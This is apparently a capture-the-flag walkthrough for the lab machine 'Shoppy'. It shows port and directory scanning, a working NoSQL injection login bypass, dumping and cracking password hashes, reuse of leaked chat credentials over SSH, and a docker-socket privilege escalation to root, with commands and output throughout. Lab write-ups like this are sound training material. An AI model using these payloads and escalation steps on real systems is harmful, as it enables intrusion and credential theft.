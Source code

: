 # Shoppy

## Enumerate Ports and Services

Let's do a non-ping port scan of the box
`nmap -sS -Pn 10.10.11.180` 

Output:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have a web server and ssh server open on this host

DNS resolves to:
```
└─$ nmap -Pn -sT -sC 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 20:13 EST
Nmap scan report for 10.10.11.180
Host is up (0.0069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://shoppy.htb
```

We update this in our `/etc/hosts` file
```
10.10.11.180    shoppy.htb
```

Running gobuster, we see the following endpoints:
```
└─$ gobuster dir -u shoppy.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/09 20:17:50 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
```

Only the `/login` endpoint is accessible

---

When we submit an HTTP POST request via the login form, we send:
```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://shoppy.htb
DNT: 1
Connection: keep-alive
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

Can we do command injection into the `username` or `password` params?

We can fuzz the `username` field with `ffuf`

`ffuf -u http://shoppy.htb -c -w /opt/SecLists/Fuzzing/Database/NoSQL.txt -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'

This yields a winning option of:
`admin' || 'a' == 'a`

Plugging this into the `username` field renders a full dump of the shop offerings, AND a button giving the option of `User Search`

If we plug that winning injection into the `Search` field, a button pops up which allows us to download a data export.

When we click on the button, we see a `user/pass` dump
```
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Trying to plug these into the `flag` field is fruitless. 
The passwords look like they are hashes

We can pass these into `crackstation.net`

And for user `josh` we get the password `remembermethisway`

Sadly, this password does not work when running `ssh josh@10.10.11.180`

---

## Subdomain Enumeration

We'll use `ffuf` again to enumerate subdomains

`ffuf -u http://shoppy.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shoppy.htb"`

We can see that there are two items that pop up as candidates:
```
alpblog.shoppy.htb
mattermost.shoppy.htb
```

Mattermost is a common work productivity chat application, so
maybe there are some interesting conversations which leak sensitive info there!

We see a conversation between Josh and Jess where `jaeger`'s credentials are found.

Let's try these creds on `ssh` to see if we can pop a shell

`ssh jaeger@10.10.11.180`

And we get in!

We can `cat` out the `user.txt` in jaeger's folder and get the user flag!

---

## Lateral movement via password-manager

Now that we're logged in via `ssh` with user access, we want to be able to grab more user creds for lateral movement, ultimately allowing us to escalate to root.

Josh and Jess talked about a password-manager in `mattermost.shoppy.htb`.

A quick way to check `jaeger`'s user privileges is by running `sudo -l`

`sudo -l` 

We see:
```
(deploy) /home/deploy/password-manager
```

The password manager mentioned before!

If we run `sudo -u deploy /home/deploy/check-permissions` (using `sudo -u` allows us to run `sudo` as a given user), we get a prompt for a password - we don't have one yet!

Looking closer via `cat /home/deploy/check-permissions` we find a string saying:
```
Please enter password: SampleWelcome!
```

This seems to suggest that `Sample` is a valid passphrase for us. Let's run `sudo -u /home/deploy/check-permissions` again, using `Sample` as a password

```
$ /home/deploy/password-manager
Please enter password: Sample
Welcome! Credentials are:
User: deploy
Password: Sh0ppy@ppDepl0y!
```

Nice! We have another set of credentials! 
Let's see if THESE work on `ssh` from our attacker machine:

`# ssh deploy@10.10.11.180`

And we've logged in as deploy!

---

## PrivEsc with Docker

Now that we've laterally moved to `deploy`, we want to find a way to escalate to root 

Since the user name is `deploy`, this implies the use of a tool like `docker`. Let's see if we have docker installed on this machine

```
$ docker images

REPOSITORY  TAG     ...
alpine      latest  ...
```

And let's find where docker socket is at (`/run/docker.sock`?):
```
$ find / -name docker.sock 2>/dev/null
/run/docker.sock
``` 

Now, we know we can perform a privilege escalation on docker images using the Socket Escape technique 

What we'll do is spawn an interactive deployment of our `alpine` image, mounting the hard disk and chroot on it

```
$ docker run -it -v /:/host/ alpine chroot /host/ bash
root@:/#
``` 

We are now root!
```
cd /root
cat root.txt
```

We now have the root flag!
